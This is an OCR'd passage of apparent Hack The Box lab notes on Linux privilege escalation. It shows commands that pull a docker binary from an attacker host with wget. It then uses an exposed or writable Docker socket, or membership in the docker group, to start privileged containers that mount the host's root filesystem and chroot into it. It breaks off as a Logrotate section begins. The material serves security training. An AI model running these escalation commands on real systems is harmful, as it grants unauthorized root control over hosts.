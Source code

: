 ```
      When we issue a command through the Docker CLI, the Docker client sends the command to the Docker socket, and the Docker daemon, in turn, processes the command and carries out the requested actions.
      
      By exposing the Docker socket over a network interface, we can remotely manage Docker hosts, issue commands, and control containers and other resources. This remote API access expands the possibilities for distributed Docker setups and remote management scenarios.
      
      htb-student@container:~/app$ ls -al
      srw-rw---- 1 root        root           0 Jun 30 15:27 docker.sock

      $ wget https://<parrot-os>:443/docker -O docker
      $ chmod +x docker
      $ ls -l
      -rwxr-xr-x 1 htb-student htb-student 0 Jun 30 15:27 docker

      $ /tmp/docker -H unix:///app/docker.sock ps

      We can create our own Docker container that maps the host’s root directory (/) to the /hostsystem directory on the container. 

      we must map these directories accordingly and use the main_app Docker image.

      htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock run --rm -d --privileged -v /:/hostsystem main_app

      htb-student@container:~/app$ /tmp/docker -H unix:///app/docker.sock ps

      Now, we can log in to the new privileged Docker container and navigate to the /hostsystem.

      htb-student@container:/app$ /tmp/docker -H unix:///app/docker.sock exec -it 7ae3bcc818af /bin/bash



      A case that can also occur is when the Docker socket is writable. Usually this socket is located in /var/run/docker.sock


      :~$ docker -H unix:///var/run/docker.sock run -v /:/mnt --rm -it ubuntu chroot /mnt bash

      root@nix02:~# ls -l /mnt



      -Docker Group

      To gain root privileges through Docker, the user we are logged in with must be in the docker group. This allows him to use and control the Docker daemon.

      $ docker image ls

      $docker run -it --rm -v /:/mnt <imagename> chroot /mnt bash
      
      
      


# LOGROTATE


Logrotate has many features for managing the /var/log log files. These include the specification of:
```